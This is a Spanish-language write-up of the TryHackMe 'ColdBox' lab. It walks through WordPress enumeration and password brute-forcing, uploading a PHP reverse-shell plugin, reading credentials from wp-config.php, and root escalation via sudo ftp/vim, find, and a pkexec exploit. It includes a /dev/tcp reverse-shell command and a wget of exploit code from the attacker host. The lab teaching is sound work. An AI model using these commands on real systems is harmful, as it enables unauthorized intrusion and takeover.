# ColdBox

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux </h3> 

<h3> Vulnerabilidad explotada: Plugins de Wordpress, en escalada de privilegio el binario pkexec, ftp, chmod, vim y find </h3>

<h3> Fecha de resolución: 15/07/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/colddboxeasy" target="_blank">Cold Box</a></h3>

### *Leer el documentro en Ingles:* <a href="coldbox_english.md">ColdBox</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **coldbox**

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 coldbox
```
**Su ttl=63, por tanto, es Linux**
### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn coldbox
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                          |
| --------- | ------- | -------------------------------- |
| 80        | http    | Apache httpd 2.4.18              |
| 4512      | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

**Ningún puerto abierto**

## Exploración

Visito la pagina que esta alojado esta ip

```
http://coldbox/
```

<p align="center"> 

</p>

Investigando, me encuentro el login de Wordpress

```
http://coldbox/wp-login.php
```

<p align="center"> 

</p>

### Wpscan

Primero actualizamos la bbdd de wpscan

```
wpscan --update
```

Luego, realizo el siguiente comando para encontrar usuarios de wordpress

```
wpscan --url http://coldbox --enumerate u,vp
```

<p align="center"> 

</p>

A continuación realizaremos a los tres usuarios fuerza bruta con wpscan, pero el único que me funciono fue con el usuario **c0ldd**

```
wpscan --url http://coldbox --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
```

<p align="center"> 

</p>

**Usuario:** coldd\
**Password:** 9876543210

Luego, ingresamos al login de wordpress e introducimos usuario y contraseña.

<p align="center"> 

</p>

### Fuzzing web

```
gobuster dir -u http://coldbox -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

```
http://coldbox/wp-includes/
```

<p align="center"> 

</p>

```
http://coldbox/hidden/
```

<p align="center"> 

</p>

## Explotación

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
```

Aquí es donde se encuentra la plantilla que tenemos que editar 
**/usr/share/webshells/php/php-reverse-shell.php**

Luego ese fichero que nos hemos traído al escritorio hay que editarlo para que wordpress nos lo detecte:

<p align="center"> 

</p>

Es muy importante, añadir lo que hemos señalado porque sino wordpress no nos dejará subir el plugins

```
/*
Plugin Name: Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: shell
Domain Path: /languages
*/
```

<p align="center"> 

</p>

Esto sirve para prepara restablecer la shell de la maquina objetivo en nuestra kali, en mi caso, sería así:

```
$ip = '10.8.139.36'; 
$port = 4444;       
```

Luego, ese archivo .php lo comprimo en zip 

```
zip reverse-shell.zip reverse-shell.php 
```

<p align="center"> 

</p>

Preparamos el puerto de escucha

```
nc -lvp 4444
```

Subimos el plugins a la página

<p align="center"> 

</p>

Lo activamos...

<p align="center"> 

</p>

pero me doy cuenta que soy el usuario www-data no el usuario c0ldd, por tanto cuando voy a recoger mi primera **Flag** no voy a poder porque necesito ser el usuario c0ldd.

#### ¿Cómo puedo conseguir la contraseña del usuario c0ldd?

Cuando hizimos fuzzing web nos apareció el siguiente archivo **wp-config.php**. Normalmente se encuentra situado en la siguiente ruta:

```
/var/www/html
```

Pues tán fácil como leer el archivo que se encuentra ahí

```
cat wp-config.php
```

<p align="center"> 

</p>

**usuario:** c0ldd\
**Contraseña:** cybersecurity

```
su c0ldd
```

<p align="center"> 

</p>

## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

### Escalada de Privilegios

#### Primer Forma:

```
sudo -l
```
**No funcionó :(**

Pero si estoy logueado con el usuario **c0ldd** y realizo el anterior comando, e introduzco la contraseña correspondiente, si me funcionará

<p align="center"> 

</p>

Todo los comandos que necesitamos para la escalada de privilegio lo encontramos en 
<a href="https://gtfobins.github.io" target="_blank">GTFobins</a> 

##### FTP

<p align="center"> 

</p>

```
sudo ftp
!/bin/sh
```

<p align="center"> 

</p>

##### CHMOD

Esto lo que hace es cambiar los permisos de la carpeta root, sin ser root....

```
sudo chmod -R 755 /root
```

##### VIM

<p align="center"> 

</p>

```
sudo vim -c ':!/bin/sh'
```

Te convierte en root

#### Segunda forma

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

##### PKEXEC

Esta el binario **pkexec** activo... por tanto llevamos la escalada de privilegio con ese binario.

Nos situamos en la carpeta **/tmp**

Luego el exploit lo podemos encontrar <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">aqui</a> 

En mi maquina atacante usamos este comando para compartir el archivo python a nuestra maquina victima

```
python -m http.server 80
```

<p align="center"> 

</p>

En mi máquina víctima 

```
wget http://10.8.139.36/CVE-2021-4034.py
chmod +x CVE-2021-4034.py
./CVE-2021-4034.py
n
whoami
```

<p align="center"> 

</p>

Por último para obtener una mejor conexión, preparo un puerto de escucha 

```
nc -lvnp 4443
```

Y lanzo este comando en mi máquina víctima

```
bash -c "sh -i >& /dev/tcp/10.8.139.36/4443 0>&1"
```

<p align="center"> 

</p>

##### Find

Buscando en la página <a href="https://gtfobins.github.io/gtfobins/find/" target="_blank">GTFobins</a> 

<p align="center"> 

</p>

Por tanto si ejecuto este comando...

```
/var/www/html$ /usr/bin/find . -exec /bin/sh -p \; -quit
```

<p align="center"> 

</p>

Mi primera bandera

<p align="center"> 

</p>

Mi segunda bandera

<p align="center"> 

</p>

**Máquina terminada**

## Conclusión

Con esta máquina estoy muy ilusionado, ya que, después de mucha práctica, es la primera que consigo resolver sin apoyarme en ningún _write-up_. He ido desarrollando poco a poco ese perfil de atacante, analizando por dónde podía avanzar, tanto en la fase de explotación como en la de escalada de privilegios. Me siento muy contento de ver que, tras estos meses haciendo CTFs, por fin los resultados empiezan a notarse.

En cuanto vi que se trataba de un WordPress, lo primero que hice fue un **wpscan**, con el que logré enumerar usuarios y luego realizar un ataque de fuerza bruta. Una vez dentro del panel de administración de WordPress, exploté una vulnerabilidad mediante la instalación de un plugin que contenía una **reverse shell**.

Finalmente, para la escalada de privilegios, noté que el binario **pkexec** estaba presente y logré llevar a cabo la escalada con éxito.